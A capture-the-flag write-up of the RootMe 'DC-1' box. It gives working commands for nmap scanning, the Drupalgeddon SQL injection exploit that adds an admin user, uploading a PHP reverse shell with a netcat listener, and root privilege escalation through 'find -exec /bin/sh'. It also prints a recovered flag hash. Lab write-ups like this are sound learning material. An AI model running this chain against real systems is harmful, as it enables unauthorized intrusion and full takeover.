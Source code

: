 # DC-1

Author: Ewaël

**DC-1** is a RootMe box by DCAU.

`nslookup ctf27.root-me.org` gives me the box IP so I can use `nmap -sC -sV -oN nmap 163.172.228.194 -v -A` that shows me port 80 and 22 are open. Let's check the website first.

![website](website.png)

The first thing I do is searching for Drupal exploits to bypass the authentification. I try to use the CVE-2019-6340 following [https://www.ambionics.io/blog/drupal8-rce](https://www.ambionics.io/blog/drupal8-rce) but it fails because I forget to check the Drupal version. I find it in the source code: Drupal 7.

```
$ searchsploit drupal | grep 7
...
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                  | php/webapps/34992.py
...
```

This is the exploit I decide to use in order to access site as an admin user the exploit adds. To do so, I use

```
python 34992.py -t http://163.172.228.194 -u test -p test
```

I can now login with `test:test`.

![test](test.png)

I find a `flag3` file:

```
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

I decide to keep this hint because it looks like it could refer to a possible privilege escalation using `find`. My next idea is to upload a reverse shell on the site as a new content. I copy the one from `/usr/share/laudanum/php/php-reverse-shell.php` and upload it but it does not work because it is not interpreted as php.

After some researches I find this link [https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell](https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell) which helps me understand how to upload php code.

![php](php.png)

I use the `Preview` button after launching `nc -lvnp 4444` and get my reverse shell on host as `www-data`. First thing I do is `python -c 'import pty; pty.spawn("/bin/bash")'` to have a nicer shell. I find a new hint:

```
$ cat /home/flag4/flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

To access `/passwd` I need to be root. After moving around in `/var/www` I remember the first hint about `find`. Following [https://gtfobins.github.io](https://gtfobins.github.io) I use:

```
find . / -exec /bin/sh \;
```

Now that I am root I can get the password:

`897f8695083ce0e82c09a79239afc548`
